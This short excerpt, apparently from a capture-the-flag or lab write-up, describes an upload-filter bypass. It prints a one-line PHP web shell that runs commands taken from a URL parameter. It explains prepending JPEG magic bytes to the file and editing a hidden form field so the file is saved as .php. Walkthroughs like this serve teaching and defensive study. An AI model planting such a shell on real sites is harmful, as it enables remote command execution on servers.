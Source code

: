 ```
<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```

![14](./img/14.png)

we need four bytes - FF D8 FF E0

![14](./img/14.2.png)


We still have to edit the form in the main page like this (this is how we manipulate the POST request):

``` html
<input type="hidden" name="filename" value="f9w2oagy08.php">
```

![14](./img/14.3.png)
